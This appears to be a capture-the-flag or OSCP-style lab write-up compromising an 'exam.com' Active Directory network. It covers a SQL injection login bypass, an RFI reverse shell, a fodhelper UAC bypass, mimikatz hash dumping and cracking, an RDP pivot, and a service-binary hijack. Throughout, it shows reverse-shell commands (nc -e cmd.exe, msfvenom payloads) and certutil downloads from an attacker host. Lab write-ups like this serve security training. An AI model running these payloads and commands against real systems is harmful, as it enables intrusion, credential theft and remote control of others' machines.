# exam.com
## Summary
### System Information
```text
IP: 192.168.149.170
OS: Windows
Hostname: DC02
```

```text
IP: 192.168.149.171
OS: Windows
Hostname: WEB01
```

```text
IP: 192.168.149.172
OS: Windows
Hostname: CLIENT01
```

### Ports
#### DC02
```text
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-08-14 05:11:28Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: exam.com0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: exam.com0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

#### WEB01
```text
21/tcp   open  ftp           FileZilla ftpd 0.9.41 beta
80/tcp   open  http          Microsoft IIS httpd 10.0
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
3306/tcp open  mysql?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
8080/tcp open  http          Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1h PHP/7.2.34)
8443/tcp open  http          Apache httpd 2.4.46 (OpenSSL/1.1.1h PHP/7.2.34)
```

#### CLIENT01
```text
135/tcp  open  msrpc         Microsoft Windows RPC
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```
***

## Enumeration
### NMAP
#### DC02
```bash
nmap -sC -sV -v -T4 -Pn -oN scans/nmap_dc02.txt 192.168.149.170
```

```text
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-08-14 05:11:28Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: exam.com0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: exam.com0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=dc02.exam.com
| Issuer: commonName=dc02.exam.com
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-04-26T18:56:32
| Not valid after:  2022-10-26T18:56:32
| MD5:   d367 3204 4623 5d6f ada4 0465 aa09 7eb4
|_SHA-1: 2416 5982 82fc cde2 c1ca 540f a7d2 474c 6057 fc43
|_ssl-date: 2022-08-14T05:12:23+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: EXAM
|   NetBIOS_Domain_Name: EXAM
|   NetBIOS_Computer_Name: DC02
|   DNS_Domain_Name: exam.com
|   DNS_Computer_Name: dc02.exam.com
|   DNS_Tree_Name: exam.com
|   Product_Version: 10.0.17763
|_  System_Time: 2022-08-14T05:11:44+00:00
Service Info: Host: DC02; OS: Windows; CPE: cpe:/o:microsoft:windows
```

#### WEB01
```bash
nmap -sC -sV -v -T4 -Pn -oN scans/nmap_web01.txt 192.168.149.171
```

```text
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-title:  - Research Repo
|_Requested resource was /ResearchRepo/Login?ReturnUrl=%2f
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2022-08-14T10:31:46+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-07-19T21:17:04
| Not valid after:  2052-07-19T21:17:04
| MD5:   8e6e c034 ac1f 4ace acef 1805 1ad5 efe9
|_SHA-1: f4eb 3d40 a30c 4805 b8e6 6964 2c6b 610b d546 e1df
| ms-sql-ntlm-info: 
|   Target_Name: EXAM
|   NetBIOS_Domain_Name: EXAM
|   NetBIOS_Computer_Name: WEB01
|   DNS_Domain_Name: exam.com
|   DNS_Computer_Name: web01.exam.com
|   DNS_Tree_Name: exam.com
|_  Product_Version: 10.0.17763
3306/tcp open  mysql?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2022-08-14T10:31:38+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=web01.exam.com
| Issuer: commonName=web01.exam.com
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-04-26T19:07:32
| Not valid after:  2022-10-26T19:07:32
| MD5:   94f9 2ab7 ece9 4d4f 2e6e add8 e98f 73ea
|_SHA-1: 7d39 1386 39a7 7d24 544b 1337 99c5 5086 a6b1 d7d1
| rdp-ntlm-info: 
|   Target_Name: EXAM
|   NetBIOS_Domain_Name: EXAM
|   NetBIOS_Computer_Name: WEB01
|   DNS_Domain_Name: exam.com
|   DNS_Computer_Name: web01.exam.com
|   DNS_Tree_Name: exam.com
|   Product_Version: 10.0.17763
|_  System_Time: 2022-08-14T10:30:56+00:00
8080/tcp open  http          Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1h PHP/7.2.34)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1h PHP/7.2.34
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.149.171:8080/dashboard/
|_http-favicon: Unknown favicon MD5: 6EB4A43CB64C97F76562AF703893C8FD
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
8443/tcp open  http          Apache httpd 2.4.46 (OpenSSL/1.1.1h PHP/7.2.34)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1h PHP/7.2.34
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.149.171:8443/dashboard/
|_http-favicon: Unknown favicon MD5: 6EB4A43CB64C97F76562AF703893C8FD
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: Host: localhost; OS: Windows; CPE: cpe:/o:microsoft:windows
```

#### CLIENT01
```bash
nmap -sC -sV -v -T4 -Pn -oN scans/nmap_client01.txt 192.168.149.172
```

```text
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: EXAM
|   NetBIOS_Domain_Name: EXAM
|   NetBIOS_Computer_Name: CLIENT01
|   DNS_Domain_Name: exam.com
|   DNS_Computer_Name: client01.exam.com
|   DNS_Tree_Name: exam.com
|   Product_Version: 10.0.18362
|_  System_Time: 2022-08-14T05:20:45+00:00
| ssl-cert: Subject: commonName=client01.exam.com
| Issuer: commonName=client01.exam.com
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-04-26T19:07:45
| Not valid after:  2022-10-26T19:07:45
| MD5:   3a48 24dd c895 8ae8 f4dd ea64 f16b 82fe
|_SHA-1: 1b29 8bc2 df14 e02c e94c 10dd eda0 1e4d 3b28 e8a6
|_ssl-date: 2022-08-14T05:20:48+00:00; -1s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Website
There's a website on port 80 on `WEB01`.



## Shell on CLIENT01
### SQL Injection
The login form is vulnerable to SQL Injection. We can bypass this using a simple SQLi payload.

```text
' OR 1=1-- -
```



We're able to successfully access the homepage.



### Remote File Inclusion
After testing the input we can determine it is vulnerable to remote file inclusion (RFI).
First we need to generate a `.hta` shell using `msfvenom`.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.149 LPORT=9001 -f hta-psh -o shell.hta
```



Then start a python server.

```bash
python3 -m http.server 80
```

Start a `netcat` listener.

```bash
rlwrap nc -lnvp 9001
```

Then access the local file via the web app.

```text
http://192.168.149.172/shell.hta
```



We get a shell on `CLIENT01` as `ted`.



## Privilege Escalation
If we look at `ted`'s permissions, we can see that he is part of the `BUILTIN\Administrators` and `Medium Mandatory Level` permissions.



We now know that we can perform a UAC bypass attack to escalate our privileges to SYSTEM.

### UAC Bypass
Setup a python web server to upload `netcat` to the target.

```bash
cp /usr/share/windows-binaries/nc.exe ./
python3 -m http.server 80
```

First upload `netcat` to the target.

```powershell
certutil -urlcache -split -f http://192.168.119.149/nc.exe nc.exe
```

Now we create registry entries to prepare the attack.

```powershell
%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe -ep bypass
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "c:\users\ted\desktop\nc.exe 192.168.119.149 9002 -e cmd.exe" /f
```

Create another `netcat` listener to catch the privileged shell.

```bash
rlwrap nc -lnvp 9002
```

Finally we can perform the attack.

```powershell
fodhelper.exe
```

We get our second shell.



If we check our permissions once more we can see that we have `High Mandatory Level` permissions.



### Flag.txt
```powershell
type flag.txt && ipconfig
```



```text
OS{06e0dfa6471729175e8c6ed211c90384}
```

### Hashes
We can upload `mimikatz` to the target to dump the systems hashes.

```bash
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe ./
python3 -m http.server 80
```

Upload and execute `mimikatz`.

```powershell
certutil -urlcache -split -f http://192.168.119.149/mimikatz.exe mimikatz.exe
.\mimikatz.exe
```



Then dump the hashes.

```powershell
privilege::debug
sekurlsa::logonpasswords
```



```text
ted:31aa99ebd6ea4b6d07051acfd48efa35
```

We can crack the hash using `hashcat`.

```bash
hashcat -m 1000 -a 0 '31aa99ebd6ea4b6d07051acfd48efa35' /usr/share/wordlists/rockyou.txt --force
```



```text
ted:avatar123
```

## Pivot to WEB01
We can get access to `WEB01` via RDP.

```bash
xfreerdp /v:192.168.149.171 /u:ted /p:avatar123
```



To get better interactivity with the machine we can get a shell using `netcat`. First start a `netcat` listener on our local machine.

```bash
rlwrap nc -lnvp 9004
```

Then upload and execute `netcat`.

```powershell
certutil -urlcache -split -f http://192.168.119.149/nc.exe nc.exe
.\nc.exe 192.168.119.149 9004 -e cmd.exe
```

We should get our shell.



### Flag.txt
```powershell
type flag.txt && ipconfig
```



```text
OS{ccfc64803ff29db05ad0fe1be73863b4}
```

## Privilege Escalation
### Bloodhound
Dump domain objects.

```bash
bloodhound-python -c All -u ted -p avatar123 -d exam.com -dc exam.com -ns 192.168.149.170
```

Import objects to Bloodhound.



It looks like we need to pivot to `zensvc` which is a member of the Domain Admin group.



```powershell
net users zensvc /domain
```



### Unquoted Service Path
There's an interesting directory in `C:\Program Files`.



Within the directory is a file called `zen.exe` with `Administrator` permissions which we can check with `icacls`.



```powershell
icacls .\zen.exe
```



We can further check this form of privilege escalation via `PowerUp`. We first need to download it.

```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
python3 -m http.server 80
```

Then we can download and import it on the target.

```powershell
certutil -urlcache -split -f http://192.168.119.149/PowerUp.ps1 PowerUp.ps1
Import-Module .\PowerUp.ps1
```

Then we can execute `Invoke-AllChecks`.



We can see that `Service1` executes `zen.exe` as the `zensvc` user. We can replace the file and start the service to execute our shell.

Start by creating an executable using `msfvenom`.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.149 LPORT=9002 -f exe -o zen.exe
```



Then we'll upload to the target and override the existing `zen.exe` executable.

```powershell
certutil -urlcache -split -f http://192.168.119.149/zen.exe "c:\program files\zen\zen.exe"
```

Start our `netcat` listener.

```bash
rlwrap nc -lnvp 9002
```

We don't have permissions over the service but since the service is set to `AUTO_START (DELAYED)` we can restart the system and it should eventually execute.

```powershell
shutdown /r /f /t 0
```

After a few minutes we should get our shell.



### Proof.txt
